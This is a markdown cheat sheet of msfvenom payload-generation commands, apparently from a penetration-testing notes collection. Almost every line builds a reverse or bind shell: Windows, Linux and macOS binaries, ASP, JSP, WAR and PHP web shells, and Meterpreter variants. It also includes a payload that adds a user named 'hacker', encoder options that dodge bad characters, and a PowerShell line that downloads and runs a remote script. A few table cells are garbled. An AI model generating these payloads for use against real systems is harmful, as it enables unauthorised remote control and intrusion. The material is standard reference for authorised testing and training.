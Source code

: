 ```yaml
---
title: Msfvenom 🕸️
tags:
  - Tool
---
```

- *Credits to: [infinitelogins](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)*
## Non-Meterpreter Binaries

### Staged Payloads for Windows

|     |                                                                                            |
| --- | ------------------------------------------------------------------------------------------ |
| x86 | `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`     |
| x64 | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

### Stageless Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

### Staged Payloads for Linux

|     |                                                                                          |
| --- | ---------------------------------------------------------------------------------------- |
| x86 | `msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf` |
|     |                                                                                          |

### Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

## Non-Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`|
|php|`msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|

## Meterpreter Binaries

### Staged Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

### Stageless Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

### Staged Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

### Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

## Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war`|
|php|`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|

## Most Common One-Liners

- Credits to [frizb](https://github.com/frizb/MSF-Venom-Cheatsheet)

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     | Description                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- |
| `msfvenom -l payloads`                                                                                                                                                                                                    | List available payloads                         |
| `msfvenom -p PAYLOAD --list-options`                                                                                                                                                                                      | List payload options                            |
| `msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP`                                                                                                                                                       | Payload Encoding                                |
| `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                    | Linux Meterpreter reverse shell x86 multi stage |
| `msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                       | Linux Meterpreter bind shell x86 multi stage    |
| `msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                             | Linux bind shell x64 single stage               |
| `msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                          | Linux reverse shell x64 single stage            |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                      | Windows Meterpreter reverse shell               |
| `msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe` | Windows Meterpreter http reverse shell          |
| `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe`                                                                                                                                        | Windows Meterpreter bind shell                  |
| `msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                            | Windows CMD Multi Stage                         |
| `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                            | Windows CMD Single Stage                        |
| `msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`                                                                                                                                              | Windows add user                                |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho`                                                                                                                                        | Mac Reverse Shell                               |
| `msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho`                                                                                                                                           | Mac Bind shell                                  |
| `msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py`                                                                                                                                               | Python Shell                                    |
| `msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh`                                                                                                                                                 | BASH Shell                                      |
| `msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl`                                                                                                                                                 | PERL Shell                                      |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp`                                                                                                                                      | ASP Meterpreter shell                           |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp`                                                                                                                                           | JSP Shell                                       |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war`                                                                                                                                           | WAR Shell                                       |
| `msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php`                                                                                                                            | pbcopy && echo '?php '                          |
| `msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php`                                                                                                                                            | Php Reverse Shell                               |
| `msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('[http://IP/nishang.ps1')\](http://ip/nishang.ps1')%5C)"" -f python`                                   | Windows Exec Nishang Powershell in python       |
| `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"`                                                                                                     | Bad characters shikata_ga_nai                   |
| `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"`1                                                                                                       | Bad characters fnstenv_mov                      |
